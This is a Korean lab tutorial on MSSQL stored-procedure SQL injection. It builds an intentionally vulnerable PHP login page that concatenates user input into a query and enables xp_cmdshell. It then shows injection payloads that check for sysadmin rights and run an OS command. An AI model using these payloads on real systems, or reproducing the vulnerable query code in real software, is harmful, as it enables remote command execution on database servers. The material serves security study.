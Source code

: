 # Stored Procedure SQL Injection

xp_cmdshell이라는 [Stored Procedure](https://ko.wikipedia.org/wiki/%EC%A0%80%EC%9E%A5_%ED%94%84%EB%A1%9C%EC%8B%9C%EC%A0%80)를 호출하여 원격 코드 실행을 할 수 있다.

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [Stored Procedure](#Stored-Procedure)**

 - [xp_cmdshell](#xp_cmdshell)


# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Windows 10 20H2 19042.508 |
| Architecture  | x86-64                    |
| IP            | 192.168.0.41              |
| MSSQL         | 2019 Express              |
| SSMS          | 18.11.1                   |

[MSSQL Server](https://www.microsoft.com/ko-kr/sql-server/sql-server-downloads)를 다운받은 후 설치하자.

설치 완료 후 SSMS도 설치하자.

![](images/2022-06-14-18-31-21.png)

SSMS를 실행 후 MSSQL로 연결하자.

![](images/2022-06-14-18-53-26.png)

test라는 테이블을 만들고 id와 pw라는 컬럼을 만든 후 데이터를 넣자.

```sql
USE [test]
GO

INSERT INTO [dbo].[user]([id],[pw])
     VALUES
           ('admin','helloworld')
GO
```

취약한 서버 환경을 위하여 xp_cmdshell을 사용할 수 있는 지 확인하자.

```sql
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell'
```

value 컬럼의 값이 0이라면, 다음의 쿼리를 통해 값을 바꾸자.

```sql
EXEC sp_configure 'show advanced options', 1
GO

RECONFIGURE
GO

EXEC sp_configure 'xp_cmdshell', 1
GO

RECONFIGURE
GO
```

Web/WAS는 Ubuntu로 구성하였다.

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |

apache, php와 데이터베이스를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
root@ubuntu:~# apt -y install php-pear php-dev unixodbc-dev
root@ubuntu:~# pecl install sqlsrv
root@ubuntu:~# pecl install pdo_sqlsrv
root@ubuntu:~# curl https://packages.microsoft.com/keys/microsoft.asc | apt-key add -
root@ubuntu:~# curl https://packages.microsoft.com/config/ubuntu/20.04/prod.list > /etc/apt/sources.list.d/mssql-release.list
root@ubuntu:~# apt-get update
root@ubuntu:~# apt-get -y install msodbcsql18
```

이후 php.ini를 수정하여 데이터베이스 관련 함수를 사용할 수 있도록 하자.

```ini
extension=sqlsrv.so
extension=pdo_sqlsrv.so
```

SQLi(SQL Injection)에 취약한 페이지를 생성하자.

```php
<?php
        if (isset($_GET['userid']) && isset($_GET['password'])) {
                $option = array("Database" => "test", "UID" => "root", "PWD" => "root", "Encrypt" => true, "TrustServerCertificate"=> true);
                $conn = sqlsrv_connect("192.168.0.41, 3306", $option);
                if ($conn === false) die(print_r( sqlsrv_errors(), true));
                $sql = "SELECT id,pw FROM [user] WHERE id='".$_GET['userid']."' and pw='".$_GET['password']."'";
                $result = sqlsrv_query($conn, $sql);
                if (!$result) die(print_r( sqlsrv_errors(), true));
                $row = sqlsrv_fetch_array($result, SQLSRV_FETCH_ASSOC);
                if ($row) echo "Welcome ".$row['id'];
                else echo "Login Failed";
                sqlsrv_free_stmt($result);
                sqlsrv_close($conn);
        } else {
?>
<html>
        <body>
                <form action="/index.php" method="get">
                        <label>ID : </label><input type="text" name="userid" required>
                        <label>PW : </label><input type="password" name="password" required>
                        <input type="submit" value="login">
                </form>
        </body>
</html>
<?php
        }
?>
```

# **Stored Procedure**

## **xp_cmdshell**

xp_cmdshell을 사용하기 위해서는 접속 계정이 해당 권한을 가지고 있어야 한다.

UNION SELECT를 이용하여 권한을 확인해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' UNION SELECT is_srvrolemember('sysadmin'),2-- |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+UNION+SELECT+is_srvrolemember%28%27sysadmin%27%29%2C2--&password=123 |

결과는 다음과 같다.

	Welcome 0

0이라면 권한이 없다는 것이므로, SMSS를 통해서 권할을 부여하자.

![](images/2022-06-14-21-30-38.png)

다시 권한을 확인해보자.

	Welcome 1

RCE여부를 확인하기 위해 Wireshark를 띄우고 ping명령을 실행하게 하자.

| data	| value	|
| :---	| :--- 	|
| ID	| '; EXEC master.sys.xp_cmdshell 'ping 8.8.8.8'-- |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27%3B+EXEC+master.sys.xp_cmdshell+%27ping+8.8.8.8%27--&password=123 |

결과는 다음과 같다.

![](images/2022-06-14-21-32-40.png)